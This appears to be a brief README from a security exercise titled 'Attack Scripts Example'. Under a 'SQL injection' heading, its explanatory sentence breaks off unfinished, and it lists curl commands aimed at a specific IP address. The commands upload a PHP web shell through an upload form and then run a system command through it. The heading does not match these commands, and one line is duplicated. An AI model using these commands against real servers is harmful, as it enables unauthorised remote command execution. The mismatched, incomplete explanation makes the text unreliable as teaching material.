 # Attack Scripts Example





## 1. SQL injection

Normally, you can only search public order information in MySQL database. However, there is a vulnerability in the exemplar

```shell
$ curl -X GET http://52.37.128.197/search.php\?query\=ah
$ curl -X GET http://52.37.128.197/search.php\?query\=ah
$ curl -F "fileToUpload=@Desktop/shell.php" http://52.37.128.197/upload.php
$ curl -X GET  http://52.37.128.197/images/shell.php\?cmd\=uname
```

